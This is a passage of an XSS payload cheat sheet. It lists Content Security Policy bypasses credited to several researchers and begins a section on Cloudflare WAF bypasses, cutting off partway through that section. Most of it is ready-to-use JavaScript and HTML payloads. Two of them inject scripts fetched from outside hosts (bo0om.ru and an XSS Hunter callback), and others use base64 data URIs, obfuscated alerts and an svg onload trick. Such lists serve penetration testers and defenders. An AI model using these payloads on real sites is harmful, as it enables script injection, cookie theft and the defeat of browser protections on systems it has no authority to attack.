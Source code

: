 ### Bypass CSP by [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)

Works for CSP like `Content-Security-Policy: default-src 'self' 'unsafe-inline';`, [POC here](http://hsts.pro/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//bo0om.ru/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;)

```js
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```

### Bypass CSP by [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)

```js
// CSP Bypass with Inline and Eval
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

### Bypass CSP by [@akita_zen](https://twitter.com/akita_zen)

Works for CSP like `script-src self`

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### Bypass CSP by [@404death](https://twitter.com/404death/status/1191222237782659072)

Works for CSP like `script-src 'self' data:`

```javascript
<script ?/src="data:+,\u0061lert%281%29">/</script>
```


## Common WAF Bypass

### Cloudflare XSS Bypasses

#### 21st April 2020

```html
<svg/OnLoad="`${prompt``}`">
```

#### 22nd August 2019
